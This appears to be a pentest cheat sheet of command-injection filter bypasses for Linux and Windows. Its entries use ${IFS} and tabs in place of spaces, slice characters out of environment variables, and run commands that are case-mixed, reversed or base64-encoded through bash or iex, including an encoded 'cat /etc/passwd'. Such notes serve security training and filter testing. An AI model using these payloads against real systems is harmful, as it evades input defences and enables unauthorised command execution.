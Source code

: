 Filtered Character Bypass (Linux).

```bash
printenv #	Can be used to view all environment variables
# Spaces 	
%09 #	Using tabs instead of spaces
${IFS} #	Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())
{ls,-la} #	Commas will be replaced with spaces
#Other Characters 	
${PATH:0:1} #	Will be replaced with /
${LS_COLORS:10:1} #	Will be replaced with ;
$(tr '!-}' '"-~'<<<[) #	Shift character by one ([ -> \)
```

Filtered Character Bypass (Windows).

```bash
Get-ChildItem Env: #	Can be used to view all environment variables - (PowerShell)
# Spaces 	
%09 #	Using tabs instead of spaces
%PROGRAMFILES:~10,-5% #	Will be replaced with a space - (CMD)
$env:PROGRAMFILES[10] #	Will be replaced with a space - (PowerShell)
# Other Characters 	
%HOMEPATH:~0,-17% #	Will be replaced with \ - (CMD)
$env:HOMEPATH[0] #	Will be replaced with \ - (PowerShell)
```

Blacklisted Command Bypass (Linux).

```bash
# Character Insertion 	
' or " #	Total must be even'
$@ or \ #	Linux only
# Case Manipulation 	
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") #	Execute command regardless of cases
$(a="WhOaMi";printf %s "${a,,}") #	Another variation of the technique
# Reversed Commands 	
echo 'whoami' | rev #	Reverse a string
$(rev<<<'imaohw') #	Execute reversed command
# Encoded Commands 	
echo -n 'cat /etc/passwd | grep 33' \| base64 #	Encode a string with base64
bash<<<$(base64 -d<<<ZWNobyBoZWxsbw==) #	Execute b64 encoded string
```

Blacklisted Command Bypass (Windows).

```bash
# Character Insertion 	
' or " #	Total must be even'
^ #	Windows only (CMD)
# Case Manipulation 	
WhoAmi 	Simply send the character with odd cases
# Reversed Commands 	
"whoami"[-1..-20] -join '' #	Reverse a string
iex "$('imaohw'[-1..-20] -join '')" #	Execute reversed command
# Encoded Commands 	
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami')) #	Encode a string with base64
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))" #	Execute b64 encoded string
```
